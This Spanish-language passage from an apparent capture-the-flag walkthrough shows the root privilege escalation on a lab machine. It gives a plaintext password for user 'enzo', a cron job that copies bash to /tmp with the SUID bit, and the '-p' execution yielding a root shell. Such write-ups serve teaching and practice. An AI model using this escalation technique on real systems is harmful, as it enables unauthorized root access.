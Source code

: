 Contraseña del usuario `enzo`: `RioTecRANDEntANT!`

Con esto, accedemos a la interfaz en nuestro navegador visitando `http://localhost:8000`, donde probablemente podremos:

- Ver o editar tareas de cron.

- Crear nuevas tareas maliciosas.

- Inyectar comandos para obtener una **reverse shell como root** o leer directamente el `root.txt`.

### Crear una tarea cron para escalar privilegios a root

Ahora que estamos en el paso final, que consiste en **crear una nueva tarea programada (cronjob)** para escalar privilegios y obtener acceso como usuario `root`.

El objetivo es usar cron para ejecutar un comando que copie el binario de Bash en el directorio `/tmp` y luego le establezca el **bit SUID**. Esto nos permitirá ejecutar esa copia de Bash con permisos de root.

El comando que colocamos en la tarea cron es:

```bash
cp /bin/bash /tmp/bash && chmod +s /tmp/bash
```



<img width="1912" height="716" alt="Image" src="https://github.com/user-attachments/assets/6791c158-54da-4b5f-8647-8d7203240b74" />

Luego de ejecutar el cron job, nos dirigimos a la carpeta `/tmp`, donde ya se encuentra copiado el binario de `bash` con el bit SUID activado. Esto nos permite ejecutar ese binario con permisos de root. Usamos los siguientes comandos:

```bash
enzo@planning:/tmp$ ls
bash
systemd-private-85bfd5b47fa744c6a8f73000c82d9913-fwupd.service-4OsbDs
systemd-private-85bfd5b47fa744c6a8f73000c82d9913-ModemManager.service-wexOSp
systemd-private-85bfd5b47fa744c6a8f73000c82d9913-polkit.service-eeUgaJ
systemd-private-85bfd5b47fa744c6a8f73000c82d9913-systemd-logind.service-rt6ZEl
systemd-private-85bfd5b47fa744c6a8f73000c82d9913-systemd-resolved.service-fMBUuX
systemd-private-85bfd5b47fa744c6a8f73000c82d9913-systemd-timesyncd.service-vstRhJ
systemd-private-85bfd5b47fa744c6a8f73000c82d9913-upower.service-3PClmk
vmware-root_733-4248680474
WXioFdKQBvuDNEVQ.stderr
WXioFdKQBvuDNEVQ.stdout
YvZsUUfEXayH6lLj.stderr
YvZsUUfEXayH6lLj.stdout

```

Ahora ejecutamos el binario `bash` con el flag `-p` para preservar los privilegios del propietario (root):

```bash
enzo@planning:/tmp$  ./bash -p
bash-5.2# whoami
root
```
